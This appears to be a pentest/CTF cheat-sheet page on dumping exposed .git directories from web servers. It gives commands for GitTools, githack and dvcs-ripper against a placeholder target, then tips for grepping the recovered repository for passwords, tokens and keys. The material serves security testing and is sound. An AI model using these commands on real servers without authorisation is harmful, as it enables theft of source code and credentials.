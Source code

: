 ```yaml
---
title: "Git Enumeration"
description: "Tools and techniques for discovering and exploiting exposed .git directories on web servers."
draft: false
---
```


## Overview

Sometimes web servers expose the `.git/` folder, which can allow an attacker to reconstruct the entire Git repository — including source code, sensitive files, and even deleted secrets.

This technique is especially useful during CTFs and real-world pentests when a target has poor `.gitignore` hygiene or misconfigured web directories.

---

## 🔧 Tools

### 🛠️ [GitTools – Dumper](https://github.com/internetwache/GitTools)

A well-known toolset for dumping Git repositories from exposed `.git/` folders.

```bash
git clone https://github.com/internetwache/GitTools
cd GitTools/Dumper
./gitdumper.sh http://target/.git/ /tmp/recovered-repo
```

### 🧪 [githack](https://github.com/BugScanTeam/githack)
Fast Python-based tool to clone .git repos via HTTP.

```bash
git clone https://github.com/BugScanTeam/githack
cd githack
python3 githack.py http://target/.git/
```

### 🧰 [DVCS-Ripper](https://github.com/kost/dvcs-ripper)
Extracts repos from Git, SVN, Mercurial. Helpful when `.git` isn't the only exposed DVCS.

```bash
git clone https://github.com/kost/dvcs-ripper
cd dvcs-ripper
perl rip-git.pl -v -u http://target/.git/
```

## 🔍 Post-Extraction Tips
Once you recover the repo, check for:

```bash
git log
git show HEAD
git diff
git checkout <old-commit>
```
Also grep for common keywords:

```bash
grep -i 'pass\|secret\|key\|token' -r .
```
Look for:

- `.env` files

- Database credentials

- Hardcoded API keys

- Deleted but tracked files

## 💡 Notes
- If `.git/index` exists, full history may be recoverable.

- Use `git fsck` to list dangling commits and blobs.

- Check `.gitignore` for hints about what the devs tried to hide.

## 🧷 Related
[gitleaks](https://github.com/gitleaks/gitleaks) – Scan Git repos for secrets

[GitHub Dorks](https://github.com/techgaun/github-dorks)